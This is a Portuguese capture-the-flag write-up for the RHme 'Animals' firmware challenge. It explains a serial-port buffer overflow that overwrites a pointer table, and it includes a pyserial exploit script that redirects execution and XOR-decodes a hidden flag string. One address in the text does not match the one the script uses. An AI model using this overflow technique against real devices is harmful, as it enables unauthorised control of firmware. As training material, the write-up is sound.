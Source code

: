 # RHme - Animals WriteUP

---

Este desafio apresenta um firmware que permite ao usuário escolher entre 3 animais ASCII art: `cat`, `dog` ou `mouse`. A comunicação é feita via porta serial e, inicialmente, o firmware responde corretamente apenas com as artes predefinidas.

Porém, com análise mais profunda, é possível abusar de um **buffer overflow** que permite sobrescrever ponteiros de tabela e acessar um **endereço oculto**, desbloqueando a flag.

---

## Análise do Comportamento

Ao enviar “dog”:

![image.png](image.png)

Após envio de strings longas, como:

```
dogaaaaaaaaaaaaaaaaaaaaa

```

Começamos a obter **resíduos de memória**. Isso indica que o firmware está acessando dados fora do buffer original. Ao analisar os bytes de resposta, identificamos uma estrutura de **tabela de ponteiros**:

```
cat   = 0x015e
dog   = 0x0158
mouse = 0x0152
???   = 0x014c ← essa é a chave!

```

---

## O Exploit

Para executar o exploit, utilizamos a biblioteca `pyserial` para enviar comandos pela porta COM3 e sobrescrevemos os ponteiros usados pelo firmware:

```python
import serial
import struct

ser = serial.Serial('COM3', 19200, timeout=2)
ser.rts = 0
ser.read_until(b">")

ser.write(b"dog")                      # comando base
ser.write(b"\\x41" * 7)                 # preenchimento
ser.write(b"\\x00")                     # contador de nome (0)
ser.write(b"\\x41" * 9)                 # padding extra
ser.write(struct.pack('<H', 0x152))    # ponteiro sobrescrito para func
ser.write(struct.pack('<H', 0x36b))    # ponteiro para string
ser.write(b"\\r\\n\\r\\n")

ser.read_until(b">")
ser.read_until(b"\\r\\n\\r\\n")
dmp = ser.read_until(b"\\r\\n\\r\\n")
li = dmp.split(b'\\r\\n')

for l in li:
    decoded = ''.join([chr(c ^ 0xdd) for c in l])
    print(decoded)

ser.close()

```

- `\\x014c` foi substituído como endereço de arte escondida.
- `\\x36b` aponta para uma string, criptografada via XOR com `0xdd`.

---

## Resultado

A execução do script resulta em:

![image.png](image%201.png)

---